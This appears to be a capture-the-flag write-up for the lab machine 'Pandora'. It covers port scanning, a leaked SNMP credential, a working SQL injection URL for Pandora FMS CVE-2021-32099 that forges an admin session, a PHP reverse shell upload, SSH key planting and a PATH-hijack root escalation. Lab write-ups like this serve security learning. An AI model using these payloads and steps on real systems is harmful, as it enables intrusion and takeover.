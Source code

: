#### Initial TCP Scan
```
nmap -sC -sV 10.10.11.136 -oN pandora.nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
9001/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



#### Findings UDP Scan
```
sudo nmap  -sU 10.10.11.136 -oN udp.nmap -vv
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

sudo nmap -p 161 -sU -sC -sV 10.10.11.136
826:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'	

ssh daniel@10.10.11.136 
password: HotelBabylon23
```
Found 3 Users
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
#### Port Forwarding with SSH
```
ssh -L 8000:localhost:80 daniel@10.10.11.136

http://127.0.0.1:8000/pandora_console/
```
#### Pandora FMS 742:POC CVE-2021-32099 
```
https://github.com/ibnuuby/cve-2021-32099
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
#### Uploading revershell.php
```
Admin Tools > File Manager
```
#### Getting a shell
Navigating to browser URL
```
127.0.0.1:8000/pandora_console/images/revshell.php
```
#### SSH connection with Matt User
```
Exporting (Kali) id_rsa.pub to (Matt) .ssh/authorized_keys
```
#### Finding Sudo Permissions in Root
```
find / -perm -u=s -type f 2>/dev/null
```
Interesting: ```/usr/bin/pandora_backup```

#### Getting Root
```
echo "/bin/bash" > tar
chmod +x tar
export PATH=$(pwd):$PATH
```
Run: ```/usr/bin/pandora_backup```

We are Root!
